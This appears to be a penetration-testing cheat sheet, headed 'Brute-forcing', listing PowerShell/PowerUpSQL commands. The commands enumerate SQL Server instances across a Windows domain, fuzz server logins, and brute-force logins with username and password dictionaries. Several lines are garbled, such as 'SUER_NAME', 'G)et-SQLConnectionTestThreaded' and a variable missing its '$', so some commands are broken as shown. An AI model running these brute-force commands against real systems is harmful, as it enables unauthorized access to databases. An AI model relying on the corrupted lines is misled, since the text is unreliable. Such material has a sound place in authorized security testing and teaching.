 # Brute-forcing

Check if current domain user has access to DB
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

Check if another domain user has access to DB
```
runas /noprofile /netonly /user:<domain\username>powershell.exe
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

Fuzzing logins:
```
Get-SQLFuzzServerLogin -Instance ops-mssql –Verbose
```

This is equivalent to:
```
SELECT SUER_NAME(1)
SELECT SUER_NAME(2)
SELECT SUER_NAME(3)
```

BruteForce:
```
Get-SQLInstanceDomain | G)et-SQLConnectionTestThreaded -Username sa -Password Password -Verbose
```

```
$comps = $(Get-SQLInstanceDomain).ComputerName
comps | Invoke-BruteForce -UserList C:\dict\users.txt -PasswordList C:\dict\passwords.txt -Service SQL –Verbose
```
